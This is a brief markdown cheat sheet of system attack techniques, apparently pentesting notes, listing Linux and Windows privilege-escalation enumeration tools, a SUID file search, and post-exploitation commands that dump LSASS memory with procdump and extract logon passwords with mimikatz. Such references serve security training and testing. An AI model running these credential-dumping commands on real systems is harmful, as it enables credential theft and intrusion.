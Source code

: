 ## System Attack Techniques

### Privilege Escalation
* Linux enumeration
        * `linpeas.sh`
* Windows enumeration
        * `winPEAS.exe`
* SUID files search
        * `find / -perm -u=s -type f 2>/dev/null`

### Post Exploitation
* Memory dump
        * `procdump.exe -ma lsass.exe lsass.dmp`
* Password dump
        * `mimikatz.exe "sekurlsa::logonpasswords""